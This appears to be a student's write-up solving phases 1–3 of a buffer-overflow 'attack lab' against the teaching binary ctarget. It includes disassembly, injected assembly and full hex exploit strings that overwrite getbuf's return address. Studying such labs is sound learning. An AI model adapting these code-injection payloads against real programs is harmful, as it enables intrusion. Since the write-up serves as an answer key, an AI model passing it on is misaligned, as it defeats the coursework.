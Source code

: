 # attack_lab_solution

## Preface
To run this lab program, you should use the command `./ctarget -q` instead of `./ctarget` since there's no grading server.

## Phase 1
This phase is so easy and it just helps you to get familiar with this lab. You can choose to use the command objdump or just use gdb to solve this lab.
One way is to use the command objdump and then you get the corresponding source code of getbuf() and touch1() function:
``` asm00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp
  4017ac:	48 89 e7             	mov    %rsp,%rdi
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop

00000000004017c0 <touch1>:
  4017c0:	48 83 ec 08          	sub    $0x8,%rsp
  4017c4:	c7 05 0e 2d 20 00 01 	movl   $0x1,0x202d0e(%rip)        # 6044dc <vlevel>
  4017cb:	00 00 00 
  4017ce:	bf c5 30 40 00       	mov    $0x4030c5,%edi
  4017d3:	e8 e8 f4 ff ff       	callq  400cc0 <puts@plt>
  4017d8:	bf 01 00 00 00       	mov    $0x1,%edi
  4017dd:	e8 ab 04 00 00       	callq  401c8d <validate>
  4017e2:	bf 00 00 00 00       	mov    $0x0,%edi
  4017e7:	e8 54 f6 ff ff       	callq  400e40

```
It's clear that the address of touch1 should be 0x4017c0. Then you get the unique key to solve this problem. You also find that the command `sub $0x28, %rsp` allocates 40 bytes(0x28 = 40 in decimal). Then you just need to use some random bytes to fill up these 40 bytes and combine it with the address. 
It should be mentioned that you should know whether your system is little-endian or not, it decides the order of your answer. On my little-endian system, the answer could be 
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 
```

## Phase 2
We use the similar method to solve phase 2.
Firstly, let's have a look at the touch2 function, 
```
void touch2(unsigned val) {
  vlevel = 2;
  /* Part of validation protocol */ 
  if (val == cookie) {
  printf("Touch2!: You called touch2(0x%.8x)\n", val);
    validate(2);
  } else {
    printf("Misfire: You called touch2(0x%.8x)\n", val);
    fail(2);
  }
  exit(0);
}
```
We know that the first argument is stored in the %rdi register, so we need to inject into the code to change the value of this register. 

We use the following code to change the value of %rdi
```
movq $0x59b997fa, %rdi
pushq $0x4017ec
retq
```
Note: the value of the cookie depends on your problem version.
We save the file and name it after phase2.s
then we use the command `gcc -c phase2.s` and `objdump -d phase2.o` to find the byte code 
```
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3
```
Then similarly, we expand the byte code into 40 bytes, and let the jump address to be the address of rsp, which we can get by using gdb:
```
(gdb) until *0x4017b4
Type string:vsiuiusiugsiugifnsifsnfgnslkfsifnlisfn

Breakpoint 2, getbuf () at buf.c:16
16	in buf.c
(gdb) x/s $rsp
0x5561dc78:	"vsiuiusiugsiugifnsifsnfgnslkfsifnlisfn"
```
Here, we specify the jump address to be the address of rsp, which is also the address of the byte code we enter above. So the return address of getbuf will be changed. Then we accomplish the injection. 

## Phase 3
In phase3, we pass the address of the string as the argument. We can construct the solution based on phase2. Rather than moving the cookie directly in the assembly code, we pass the address of cookie this time. 

``` asm
movq $0x5561dca8, %rdi
pushq $0x4018fa
retq
```
Then we briefly talk about this constant. 0x5561dca8 = 0x5561dc78 + 0x30, where 0x5561dc78 is what we use in the phase 2(rsp). We use this 0x30 because of our structure of the final solution. We put the cookie string at the end of the byte code. To be more specific, 

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00 
35 39 62 39 39 37 66 61
00

```
35 39 62 39 39 37 66 61 is the ascii byte code of our cookie string, and 00 is the sign used in C to indicate the end of a string. The other part is similar to what we talk about in phase2. 

